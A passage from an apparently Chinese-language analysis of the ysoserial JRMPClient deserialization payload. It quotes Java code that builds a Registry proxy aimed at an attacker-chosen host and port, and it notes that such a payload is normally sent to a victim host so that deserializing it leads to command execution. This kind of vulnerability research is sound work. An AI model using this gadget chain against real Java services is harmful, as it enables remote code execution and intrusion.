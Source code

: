 这里的clazz是JRMPClient，也就是调用该类的getObject方法获取payload

```plain
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    // 标识远程对象
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    // 远程对象通信终点
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    // 用于处理代理对象的方法调用
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    // 创建代理对象
    Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
        Registry.class
    }, obj);
    return proxy;
}
```

[![](assets/1701612165-1f833aba90cea6c2d2ec3e43dcd8caca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810225321-a66baf98-378d-1.png)  
最后将返回的代理对象进行反序列化  
**第二步：将序列化的payload进行反序列化**  
这一步是测试所用，正常是将payload发送至某个受害主机，让其进行反序列化从而导致命令执行  
根据payload的构造，反序列化的第一步应该从RemoteObjectInvocationHandler类的readObject方法开始，在该类中没找到readObject方法，进而查看父类RemoteObject的readObject方法
